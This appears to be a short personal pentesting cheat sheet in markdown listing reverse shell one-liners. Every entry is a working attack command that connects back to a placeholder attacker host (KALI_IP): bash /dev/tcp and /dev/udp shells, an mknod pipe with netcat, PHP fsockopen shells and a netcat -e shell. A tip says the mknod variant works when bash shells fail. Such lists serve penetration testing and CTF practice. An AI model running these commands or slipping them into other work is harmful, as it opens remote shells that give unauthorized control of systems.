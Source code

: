 ```yaml
---
title: 
tags:
---
```

## Bash

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```

## mknod

```bash
mknod backpipe p; nc KALI_IP 9999 0<backpipe | /bin/bash 1>backpipe
```
>[!tip]
>This reverse shell typically works well when bash reverse shells aren't available.
## PHP

#### Command line:
```bash
php -r '$sock=fsockopen("KALI_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9001);shell_exec("sh <&3 >&3 2>&3");'
```

## Netcat
```bash
nc KALI_IP 9001 -e sh
```


---
